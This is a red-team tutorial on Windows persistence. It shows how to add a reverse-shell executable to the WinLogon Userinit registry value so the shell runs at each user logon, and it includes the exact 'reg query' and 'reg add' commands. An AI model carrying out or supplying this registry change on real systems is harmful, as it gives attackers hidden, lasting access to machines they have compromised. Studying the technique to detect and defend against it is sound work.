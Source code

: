 # Windows Persistence Using WinLogon Reverse Shell

## Introduction
In this guide, I'll walk you through a method to establish persistence on Windows systems by leveraging the widely utilized WinLogon component.

## What is Persistence?
> Note : This guide is part of the HackerSploit Red Team series of guides. To navigate to other guides in the series, visit: https://www.linode.com/docs/guides/windows-red-team-persistence-techniques/

Persistence refers to techniques attackers use to maintain access to a system despite reboots, credential changes, or other disruptions that might otherwise terminate their connection. These methods involve actions, configurations, or code modifications that ensure continued access, such as altering legitimate programs or injecting code into startup processes.

In simpler terms, persistence allows you to keep control over a compromised machine, regaining your access even after the system restarts, without needing to reinfect the target.

## What is WinLogon?

WinLogon is a critical Windows component responsible for managing tasks like user logon, logoff, loading user profiles during authentication, system shutdowns, and handling the lock screen. These actions are controlled via the Windows registry, which specifies what processes launch during logon events. For red team operations, these events can serve as triggers to execute custom payloads, enabling persistent access.

> For more details : https://pentestlab.blog/2020/01/14/persistence-winlogon-helper-dll/

Now that we’ve covered the basics, let’s dive into achieving persistence with WinLogon.

## Proof of Concept (PoC)
For this demonstration, I’ll use a file named `shell.exe`, a reverse shell crafted in C++. You can find the source code here:

[GitHub - S12cybersecurity/Reverse-Shell-C-PlusPlus](https://github.com/S12cybersecurity/Reverse-Shell-C-PlusPlus)  
> Note: This is a modified version of a simple C++ reverse shell, originally shared by cocomelonc.

Let’s get started, assuming an active reverse shell is already running on the target system.

![1](https://github.com/user-attachments/assets/fa09ae81-8c57-48e1-9b8d-11a6839c214e)

### Step 1: Inspect the Registry
Run the following command to check the current `Userinit` value in the WinLogon registry key:

```bash
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit
```

![2](https://github.com/user-attachments/assets/023a98fc-b653-4adc-bd59-aadae5b86b4a)

### Step 2: Confirm the Current Winlogon Setting
First, query the existing value to verify the current state:

```bash
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit
```

You’ll usually see something like:

```text
Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
```

This is the default behavior — it runs the `userinit.exe` process, which is responsible for starting the user environment after login.

![3](https://github.com/user-attachments/assets/e3ae5805-dd8d-48d0-97b5-28d443618735)

### Step 3: Inject Your Shell into the Winlogon Process
Now, we’ll modify this value to include our reverse shell binary (`shell.exe`) alongside the legitimate executable.

Run the following command in an elevated command prompt (as Administrator):

```bash
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "C:\Windows\system32\userinit.exe, C:\Users\s12de\Downloads\shell.exe" /f
```
![4](https://github.com/user-attachments/assets/2e8718fc-e82d-4964-986f-f7bf5c4e9868)

This modification ensures that every time a user logs in, logs out, or locks/unlocks their system, both the legitimate `userinit.exe` and your custom reverse shell (`shell.exe`) are executed automatically.

![5](https://github.com/user-attachments/assets/3770d815-4d33-41e5-8fe2-8398fb99b4af)

## Conclusion
Using the **Winlogon Userinit** registry key provides a discreet and persistent method to retain access on a Windows machine.  
Because it’s deeply embedded in the system’s authentication routine, it serves as a dependable point to execute your custom payload.

> ⚠️ **Important:** This information is shared for educational purposes only. Always ensure you have explicit permission before testing or deploying such techniques.

---

Thanks for reading!  
**— Malforge Group**

